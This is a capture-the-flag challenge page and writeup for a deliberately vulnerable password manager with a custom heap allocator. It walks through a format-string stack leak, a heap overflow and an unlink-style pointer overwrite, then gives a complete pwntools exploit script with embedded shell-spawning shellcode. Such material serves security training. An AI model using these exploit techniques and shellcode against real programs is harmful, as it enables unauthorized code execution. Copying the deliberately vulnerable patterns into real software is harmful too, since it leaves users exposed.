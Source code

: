 # Name
Password Manager

# Description
I programmed my own open-source password manager, and it is completely unhackable! I even made my own custom heap implementation to secure myself against heap exploitation attempts! I don't care how good of a hacker you are, even with my source code, you won't be able to open up a shell in my program!

TODO: Put a netcat command here telling them which server to connect to in order to test the exploit.

# Difficulty
Hard

# Flag
I haven't programmed a flag into this yet. Basically, after they exploit the program, they should get a shell into the server running this program. There should be a flag.txt file on that server in the same directory as the program, which they should be able to cat. Whoever is setting up this server can just put whatever they want into the flag.txt file and have that be the flag.

# Hints
None

# Author Name
Nihaal Prasad

# Writeup
The user is given four files: alloc.c, alloc.h, passwd.c, and password. If they execute the password file, they should see the following printed out:

```
Hello, welcome to the world's greatest password manager!
This password manager is so amazing that it uses a custom
heap implementation! No hacker will ever be successful in
conducting a heap overflow against this application (let
alone ever obtain a shell)! It is impossible to hack into
this application, so you shouldn't even bother trying!

To create a new account, please enter a username: 
```

After typing in a username, the program gives the user the option to add, delete, modify, and print out passwords.
```
To create a new account, please enter a username: Nihaal
A new account for Nihaal has been created.

Available commands:
new: Create a new password.
print <id>: Prints out the password with the given ID.
del <id>: Deletes the password with the given ID.
modify <id>: Modifies the password with the given ID.
quit: Stop the program.
> 
```

There are multiple vulnerabilities here that must be chained together for the exploit to work. If you look in passwd.c, you can see the a format string vulnerability in the print_pass() function
```
void print_pass(pass_t *n) {
        printf("Password #%ld\n", n->id);
        printf(n->pass);
}
```

If you immediately create a new password with "%8$p" as its string, then when you print out the password, you'll get the eighth pointer from the stack. Adding 208 to this address gives us the address of our username (where we'll put in our shellcode). Subtracting 40 from this address gives us the address of the return address for heap_alloc(), which will be helpful later.

```
void modify_id(unsigned long id, pass_t *head) {
        pass_t *tmp = head;
        while(tmp != NULL && tmp->id != id) {
                tmp = tmp->next;
        }
        if(tmp != NULL) {
                printf("Enter the modified password (%d max characters): ", BUF_SIZE);
                fgets(tmp->pass, 1000, stdin);
        } else {
                printf("Invalid ID.\n");
        }
}
```

The modify\_id() function in passwd.c contains the second vulnerability. This function can move up to 1000 bytes into tmp->pass. If you look into the definition of `pass_t`, you'll see that it contains a 128-byte array, two pointers, and a long, which makes a single `pass_t` variable 152 bytes long. Therefore, if you modify a password and type in more than 152 bytes, you will be able to do a heap overflow.

```
typedef struct pass {
        char pass[BUF_SIZE];
        struct pass *next;
        struct pass *prev;
        unsigned long id;
} pass_t;
```

If we look into the definition of a `heap_header_t`, we'll see that there are four variables: `next`, `prev`, `size`, `free`. If we use the `modify_id()` function to conduct a heap overflow, then we should be able to overwrite all four of these values in the adjacent heap chunk. In other words, we can completely control the header of the chunks that comes right after the chunk we are currently writing to.

```
typedef union heap_header {
    struct {
        union heap_header *next;
        union heap_header *prev;
        size_t size;
        char free;
    } data;
    char align[32];
} heap_header_t;
```

Now look at the `heap_alloc()` function in alloc.c to find the main vulnerability that makes obtaining a shell possible. Suppose someone called `heap_alloc()`, and there is a free chunk that already exists. The following steps will occur in this situation:
1. `heap_alloc()` will call `first_fit()` to search for a free chunk.
2. It will then remove the free chunk from the linked list of free chunks.
3. It mainly uses a couple lines of code to accomplish this, which are shown below:
```
if(ret->data.prev) {
    ret->data.prev->data.next = ret->data.next;
}
if(ret->data.next) {
    ret->data.next->data.prev = ret->data.prev;
}
```
These lines of code are used to remove the free chunk from the linked list of free chunks. However, consider the fact that we can control the values of `data.next` and `data.prev` (if it comes right after a chunk we can write to). If we were to overwrite the value of `data.next` with the address of the return address of `ncha_alloc()`, then the return address would be set equal to `data.prev`. If we set `data.prev` to the address of our username, then we can just set our username to our shellcode and obtain code execution in that manner!

To accomplish this, we will create three new passwords. Then, we'll delete the second password. Next, we'll modify the first password and overwite the header of the second heap chunk. If done correctly, we will immediately obtain code execution when we create a fourth password. Here is some python code that does just that:

```
#!/usr/bin/env python3

from pwn import *

# Open the process
p = process("./password", stdin=PTY)
# gdb.attach(p, "b heap_alloc\nc")

# Ignore the intro
p.recvuntil("please enter a username:")

# Send the shellcode as our name
shellcode = b"\x48\x31\xc0\x48\x31\xff\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x48\x31\xc0\xb0\x3b\x48\x31\xdb\x53\xbb\x6e\x2f\x73\x68\x48\xc1\xe3\x10\x66\xbb\x62\x69\x48\xc1\xe3\x10\xb7\x2f\x53\x48\x89\xe7\x48\x83\xc7\x01\x48\x31\xf6\x48\x31\xd2\x0f\x05"
shellcode = (b"\x90"*(126-len(shellcode))) + shellcode
p.sendline(shellcode)

# Ignore the other shit
p.recvuntil("> ")

# Leak an address from the stack
p.sendline("new") # Create a new chunk on the heap
p.sendline("%8$p") # Eighth value on the stack is what we want
first_password_id = p.recvline()[67:-2] # Get the first password's ID
p.sendline(b"print " + first_password_id) # Print out the password
p.recvline() # ignore a line
leaked_addr = int(p.recvline(), 16) # Leak the address on the stack
shellcode_addr = p64(leaked_addr + 208) # Shellcode is 208 bytes away from the leaked address
return_addr = p64(leaked_addr - 40) # Address of return address is 40 bytes away

# Create two more passwords
p.sendline("new")
p.sendline("AAAAAAAA")
second_password_id = p.recvline()[69:-2]
p.sendline("new")
p.sendline("BBBBBBBB")
p.recvline() # Ignore this line, we don't need it

# Deallocate the second password to create a free chunk on the heap
p.sendline(b"del " + second_password_id)

# Generate a payload that will corrupt a chunk on the heap
payload = b"A"*152
payload += shellcode_addr
payload += return_addr
payload += b"\xff\xff\xff\xff\xff\xff\xff\xff\x01"

# Save the payload to the first password so that it corrupts the second chunk
p.sendline(b"modify " + first_password_id)
p.sendline(payload)

# When a new node is created, it will use the next free chunk.
# Since the free chunk is corrupted, this will trigger a heap overflow.
p.sendline("new")
p.interactive()
```
